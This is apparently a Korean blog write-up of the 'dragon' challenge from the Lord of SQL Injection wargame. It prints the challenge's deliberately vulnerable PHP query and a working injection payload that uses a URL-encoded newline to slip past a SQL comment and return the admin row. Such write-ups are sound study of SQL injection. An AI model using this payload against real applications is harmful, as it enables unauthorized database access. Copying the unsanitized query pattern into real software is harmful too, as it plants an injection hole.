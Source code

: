 ```yaml
---
title: Lord of SQL Injection Write Up No.20 Dragon
date: 2019-09-15 20:45:46
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 20번 dragon 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

주석 처리를 우회할 수 있는지 확인한다.

### 소스 코드 분석

dragon 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```

- GET 방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("dragon");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 다만 `id='guest'` 뒤에 주석인 `#`이 붙어있어 그 뒤에 들어가는 코드가 처리되지 않는다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. 개행 문자로 주석 처리 우회

   `id='guest'` 뒤에 주석인 `#`이 붙어있어 그 뒤에 들어가는 코드가 처리되지 않는다.

   `pw`의 값에 개행 문자인 LF(Line Feed, `%0A`)를 삽입하여 주석 처리를 우회한다.

   ```url
   http://los.eagle-jump.org/dragon_7ead3fe768221c5d34bc42d518130972.php?pw='%0aor 1=1 limit 1,1-- -
   ```

   ```sql
   select id from prob_dragon where id='guest'# and pw='' or 1=1 limit 1,1-- -'
   ```
